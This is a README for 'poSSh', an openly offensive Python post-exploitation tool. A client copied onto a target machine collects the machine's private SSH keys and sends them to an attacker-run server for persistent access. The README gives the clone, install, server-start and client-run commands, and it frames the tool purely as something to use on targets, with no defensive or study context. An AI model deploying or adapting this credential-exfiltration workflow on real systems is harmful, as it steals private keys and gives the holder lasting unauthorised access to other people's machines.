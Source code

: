 # poSSh (Alpha)
### Post Exploitation Tool for persistence using ssh.
poSSh is a post-exploitation tool written in python. It uses the private key of target for persistence.(Alpha)

## ==> How it works..
### Server
- Check for Internet Connection.
- Start server using wan(ipv4) address.
- Generate Security Key.
- Exchange Security key with Client.
- Get the Private SSh key(s) from client.
- Save the Private key.
- Save the logs.

### Client
- Connect to Server using Socket.
- Exchange Security key from Server.
- Get Private SSH key(s) from target.
- Send private key(s) to server.
## Features

- The tool is in alpha right now.



## Installation

poSSh requires [Python3](https://www.python.org/) v3.8 or Greater to run.

Install the dependencies and start the server.
### Server
```sh
git clone https://github.com/sc4rfurry/poSSh.git
cd poSSh
pip3 install -r requirement.txt
python3 main.py [port]
```
### Client
Just copy the client from poSSh-client/client.py to the target machine.
```sh
python3 client.py [server_ip] [port]
```